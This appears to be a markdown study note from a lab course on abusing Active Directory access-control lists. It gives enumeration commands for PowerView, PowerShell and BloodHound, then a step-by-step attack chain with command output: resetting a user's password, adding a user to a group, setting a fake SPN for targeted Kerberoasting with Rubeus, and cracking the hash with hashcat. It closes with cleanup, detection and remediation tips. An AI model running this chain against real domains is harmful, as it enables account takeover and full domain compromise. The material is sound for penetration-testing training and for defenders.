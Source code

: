 # ACL Abuse in Active Directory

## Table of Contents
- [ACL Abuse Primer](#acl-abuse-primer)
- [ACL Enumeration](#acl-enumeration)
- [ACL Abuse Tactics](#acl-abuse-tactics)

---

## ACL Abuse Primer

- **ACL (Access Control List):** List of permissions on an AD object.
- **ACE (Access Control Entry):** Single permission entry in an ACL (who, what rights).
- **DACL:** Who can access/modify the object.
- **SACL:** What access attempts are audited.

**Why attackers care:**
- Misconfigured ACLs = stealthy privilege escalation, lateral movement, persistence.
- Abusable rights often go undetected by standard vulnerability scans.

**Key abusable rights:**
| Right/ACE         | What It Lets You Do                        | Example Tool/Command           |
|-------------------|--------------------------------------------|-------------------------------|
| GenericAll        | Full control over object                   | Set-DomainUserPassword        |
| GenericWrite      | Write to most attributes                   | Set-DomainObject              |
| WriteOwner        | Change object owner                        | Set-DomainObjectOwner         |
| WriteDACL         | Change permissions (add more rights)       | Add-DomainObjectACL           |
| ForceChangePassword | Reset user password (no old pwd needed)  | Set-DomainUserPassword        |
| AddMember         | Add users to groups                        | Add-DomainGroupMember         |
| AddSelf           | Add self to group (if allowed)             | Add-DomainGroupMember         |
| AllExtendedRights | Special/rare rights (reset pwd, etc.)      | Set-DomainUserPassword        |

**Typical attack flow:**
1. Enumerate ACLs (BloodHound, PowerView, ADExplorer)
2. Find abusable ACEs (see table above)
3. Exploit (abuse rights)
4. Escalate/move laterally

---

## ACL Enumeration

### PowerView (Targeted Enumeration)
- Get SID of your user:
  ```powershell
  $sid = ConvertTo-Sid wley
  ```
- Find objects your user can control:
  ```powershell
  Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
  ```
  - Look for rights like `User-Force-Change-Password`, `GenericWrite`, `GenericAll`, `DS-Replication-Get-Changes`.
- Map GUIDs to readable names if needed:
  ```powershell
  $guid = "00299570-246d-11d0-a768-00aa006e0529"
  Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * | ?{$_.rightsGuid -eq $guid} | fl Name,DisplayName
  ```
- Recursively enumerate: If you control user A, check what A controls, and so on.

### PowerShell (No PowerView)
- List all users:
  ```powershell
  Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
  ```
- For each user, check ACLs:
  ```powershell
  foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {
    get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}
  }
  ```

### BloodHound (Graphical, Fastest for Paths)
- Collect data with SharpHound, upload to BloodHound.
- Set your user as the start node, check "Outbound Control Rights" and "Transitive Object Control".
- Use pre-built queries: "Shortest Paths to High Value Targets", "Users with DCSync Rights", etc.
- Edge types to know: `ForceChangePassword`, `AddMember`, `GenericWrite`, `GenericAll`, `GetChangesAll`/`GetChanges`.

### Troubleshooting & OpSec
- Use `-Verbose` for feedback.
- Targeted enumeration is stealthier than querying everything.
- Monitor for Event ID 5136 (object modified), group membership changes, SPN modifications.

---

## ACL Abuse Tactics

Abusing ACLs in Active Directory is a powerful way to escalate privileges, move laterally, and ultimately compromise a domain. Below is a practical, stepwise example based on a real-world attack chain, with explanations and command outputs for each step. This is the kind of chain you might see in Hack The Box, CTFs, or real internal assessments.

### Scenario Recap
- **Initial foothold:** You control the user `wley` (NTLMv2 hash captured with Responder, cracked with Hashcat).
- **Goal:** Full domain compromise by obtaining DCSync rights (control of `adunn`).

### Step 1: Force Password Reset (wley → damundsen)
**Why:** If you have ForceChangePassword rights, you can reset another user's password without knowing the old one.
```powershell
$SecPassword = ConvertTo-SecureString 'wley_password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
**Output:**
```
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
```
- **Result:** You now control `damundsen`.

### Step 2: Group Membership Abuse (damundsen → Help Desk Level 1)
**Why:** If you have GenericWrite on a group, you can add users to it, inheriting all its rights (including nested groups).
```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```
**Output:**
```
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```
- **Result:** `damundsen` is now in Help Desk Level 1 group.

### Step 3: Nested Group Escalation (Help Desk Level 1 → Information Technology)
**Why:** Group nesting means rights are inherited. If Help Desk Level 1 is a member of Information Technology, so is `damundsen`.
- **Check group nesting:**
```powershell
Get-DomainGroup -Identity "Help Desk Level 1" | select memberof
```
- **Result:** You inherit all rights of Information Technology group.

### Step 4: Targeted Kerberoasting (adunn)
**Why:** If you have GenericAll on a user, you can set a fake SPN, Kerberoast, and crack their password offline.
- **Create a fake SPN:**
```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
**Output:**
```
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'notahacker/LEGIT' for object 'adunn'
```
- **Kerberoast with Rubeus:**
```powershell
.\Rubeus.exe kerberoast /user:adunn /nowrap
```
**Output:**
```
[*] SamAccountName         : adunn
[*] ServicePrincipalName   : notahacker/LEGIT
[*] Hash                   : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL$...
```
- **Crack the hash offline with Hashcat:**
```bash
hashcat -m 13100 <hashfile> <wordlist>
```
- **Result:** You now have the cleartext password for `adunn` (DCSync rights).

### Step 5: Cleanup
**Why:** Always revert changes in labs/assessments to avoid detection and maintain integrity.
- **Remove fake SPN:**
```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```
- **Remove user from group:**
```powershell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```
- **Reset damundsen password (if needed).**

### Detection & Remediation
- **Monitor for:**
  - Event ID 5136 (object modified)
  - Group membership changes
  - SPN modifications
- **Remediate:**
  - Audit and remove dangerous ACLs
  - Monitor high-value group memberships
  - Train staff to use BloodHound for regular reviews

---
**Pro Tips:**
- Always use `-Verbose` for feedback.
- Document every change for reporting.
- In real environments, get explicit approval before making changes.
- This chain is common in CTFs and real-world pentests—practice it in labs! 
